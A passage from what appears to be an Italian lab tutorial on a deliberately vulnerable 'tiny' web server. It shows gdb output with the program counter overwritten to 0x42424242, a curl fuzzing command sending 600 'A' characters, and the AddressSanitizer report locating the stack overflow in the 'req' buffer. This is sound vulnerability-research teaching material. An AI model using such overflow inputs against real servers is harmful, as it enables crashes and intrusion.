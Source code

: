 ```
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd600 --> 0x0
0004| 0xffffd604 --> 0xffffd750 --> 0x36830002
0008| 0xffffd608 --> 0xffffd63c --> 0x10
0012| 0xffffd60c --> 0xf7ffdc44 --> 0xf7ffdc30 --> 0xf7fd4000 (jg     0xf7fd4047)
0016| 0xffffd610 --> 0x380
0020| 0xffffd614 --> 0x8048581 ("__libc_start_main")
0024| 0xffffd618 --> 0x380
0028| 0xffffd61c --> 0x380
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
## Address Sanitizer
Compilare il server tramite il flag `-fsanitize=address -g` come eseguido dal Makefile:

```
root@283bf557ebdc:/opt# make addressanitizer
```
Ed eseguire il webserver:
```
root@283bf557ebdc:/opt# execnoaslr ./tiny-lab1-addressanitizer
listen on port 9999, fd is 3
child pid is 132

```

Effettuare il semplice Fuzzing della URL richiesta e verificare il crash del server con i dettagli forniti dall'instrumentation in fase di compilazione dell'addresssanitizer.
Fuzzing:
```
$ curl http://localhost:9999/`python -c 'print "A"*600'`           
curl: (52) Empty reply from server
```
E di seguito Address Sanitizer Output a seguito del crash:
```
accept request, fd is 4, pid is 131
=================================================================
==131==ERROR: AddressSanitizer: stack-buffer-overflow on address 0xffffd2d8 at pc 0x08182515 bp 0xffffbc48 sp 0xffffbc3c
WRITE of size 1 at 0xffffd2d8 thread T0
    #0 0x8182514  (/opt/tiny-lab1-addressanitizer+0x8182514)
    #1 0x8182e08  (/opt/tiny-lab1-addressanitizer+0x8182e08)
    #2 0x8183e60  (/opt/tiny-lab1-addressanitizer+0x8183e60)
    #3 0x8184bdc  (/opt/tiny-lab1-addressanitizer+0x8184bdc)
    #4 0xf7ceee80  (/lib32/libc.so.6+0x18e80)
    #5 0x8060b01  (/opt/tiny-lab1-addressanitizer+0x8060b01)

Address 0xffffd2d8 is located in stack of thread T0 at offset 536 in frame
    #0 0x8183cef  (/opt/tiny-lab1-addressanitizer+0x8183cef)

  This frame has 2 object(s):
    [16, 536) 'req' (line 348) <== Memory access at offset 536 overflows this variable
    [672, 760) 'sbuf' (line 351)
HINT: this may be a false positive if your program uses some custom stack unwind mechanism, swapcontext or vfork
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow (/opt/tiny-lab1-addressanitizer+0x8182514)
Shadow bytes around the buggy address:
  0x3ffffa00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x3ffffa10: 00 00 00 00 00 00 00 00 f1 f1 00 00 00 00 00 00
```